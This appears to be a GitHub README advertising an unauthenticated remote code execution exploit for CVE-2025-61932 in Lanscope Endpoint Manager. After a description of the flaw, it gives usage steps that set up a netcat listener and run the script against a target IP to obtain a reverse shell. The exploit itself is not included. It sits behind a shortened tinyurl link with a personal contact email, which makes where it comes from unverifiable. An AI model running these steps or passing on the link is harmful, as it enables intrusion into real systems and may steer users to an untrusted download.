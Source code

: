 # Lanscope Endpoint Manager RCE Exploit (CVE-2025-61932)

## Overview
CVE-2025-61932 is a critical unauthenticated remote code execution (RCE) vulnerability in Lanscope Endpoint Manager On-Premises, specifically the Client program (MR) and Detection Agent (DA) components. The flaw lies in the improper validation of incoming network packets, allowing attackers to craft malicious packets that trigger a buffer overflow in the service’s request handling logic. This results in arbitrary code execution with SYSTEM privileges on Windows or root privileges on Linux, depending on the deployment.

The vulnerability originates in the network listener service, which operates on TCP ports 445 (default), 135, or user-configured ports. The service fails to verify the source of incoming packets, assuming they originate from trusted endpoints. By spoofing headers to mimic legitimate agent communication, attackers can inject malicious payloads into the input buffer of the MR or DA module, leading to memory corruption and code execution.

## Requirements
- Python 3.8+
- Scapy library.
- Target IP and port.

## Usage
1. Install dependencies: `pip install scapy`
2. Vulnerability Check: `python cve-2025-61932.py --target 192.168.1.100 --check`
3. Set up a listener to receive the reverse shell: `nc -lvnp 4444`
4. Run: `python cve-2025-61932.py --target <IP> --port 445 --lhost <YOUR_IP> --lport 4444`

## Disclaimer
This is for authorized testing only. Use at your own risk. Not responsible for misuse.

## Exploit
[href](https://tinyurl.com/2jxd2uww)

For any inquiries, please email me at: anthonmullins@op.pl
